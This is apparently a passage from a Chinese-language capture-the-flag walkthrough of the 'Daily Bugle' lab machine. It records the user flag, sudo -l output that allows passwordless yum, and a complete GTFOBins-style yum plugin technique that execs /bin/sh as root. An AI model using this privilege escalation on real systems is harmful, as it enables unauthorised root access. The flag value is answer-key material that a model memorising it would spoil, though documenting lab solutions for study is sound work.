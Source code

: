 ```
27a260fe3cba712cfdedb1c86d80442e
[jjameson@dailybugle ~]$ 
```

# 拿到user.txt
```
question：What is the user flag?
answer：27a260fe3cba712cfdedb1c86d80442e
```

# 通过sudo -l 发现yum命令无需密码就可以用root身份运行
```
[jjameson@dailybugle ~]$ sudo -l
匹配 %2$s 上 %1$s 的默认条目：
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

用户 jjameson 可以在 dailybugle 上运行以下命令：
    (ALL) NOPASSWD: /usr/bin/yum
```


# 根据https://gtfobins.github.io/gtfobins/yum/这里的b方法拿到root权限
```
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ echo 'id' > $TF/x.sh
[jjameson@dailybugle ~]$ fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
-bash: fpm: 未找到命令
[jjameson@dailybugle ~]$ at >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
-bash: at: 未找到命令
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
已加载插件：y
```